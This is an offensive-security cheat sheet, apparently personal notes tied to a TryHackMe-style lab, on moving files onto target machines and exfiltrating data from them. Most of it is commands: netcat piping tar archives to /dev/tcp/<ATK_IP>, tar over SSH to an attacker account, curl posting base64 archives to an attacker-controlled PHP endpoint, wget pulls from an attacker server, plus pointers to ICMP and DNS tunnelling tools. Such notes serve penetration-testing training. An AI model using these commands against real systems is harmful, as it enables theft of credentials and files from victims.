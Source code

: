 For the sake of example, everything labeled as a "task" can be considered the data being exfiltrated. 

> [!danger] Detection Risk
> Don't burn important host IPs onto a blacklist trying to download autopwn.exe or something stupid. Be cognizant of your situation, and act accordingly. Run stuff by more senior teammates if you don't know for sure. 


[[#File Transfers]] are TO a target machine, [[#Exfiltration]] is FROM a target machine. 

# File Transfers
## HTTP
On the attacker machine:
```shell
python -m SimpleHTTPServer <portno> # Start a python 2 http server in cwd
python3 -m http.server <portno> # start a python3 http server in cwd
```

On the victim machine:
```bash
(Linux)
wget http://<attackerIP>:<portno>/FileToTransfer

(Windows)
curl http://<attackerIP>:<portno>/FileToTransfer -O FileToTransfer
```

## SMB
```shell
impacket-smbserver -smb2support -username <user to auth> -password <password to auth> <share name> <share location> # Open an SMB share serving <share location> as <share name>
```

## Client Side

# Exfiltration
## Raw TCP Sockets
[[Netcat]] Example Command: 
```shell
nc -lvp 8080 > /tmp/task4-creds.data # Receive
tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/<ATK_IP>/8080 # Send
dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar # Recombine
tar xvf task4-creds.tar # Decompress
```

## SSH
```shell
tar cf - task5/ | ssh thm@<ATK_IP> "cd /tmp/; tar xpf -" # On victim machine
```

## HTTP
```shell
curl --data "file=$(tar zcf - task6 | base64)" http://<ATK_IP>/bogus.php
```
This will leave the data base64 encoded in apache's access.log. 
[[Neo-reGeorg]]

## ICMP
Ping has a data section we can use for exfil. Also see [[ICMPdoor]] for ICMP C2. 

## DNS
Add data as TXT record on a DNS server and retrieve with dig. [[Iodined]] for C2.
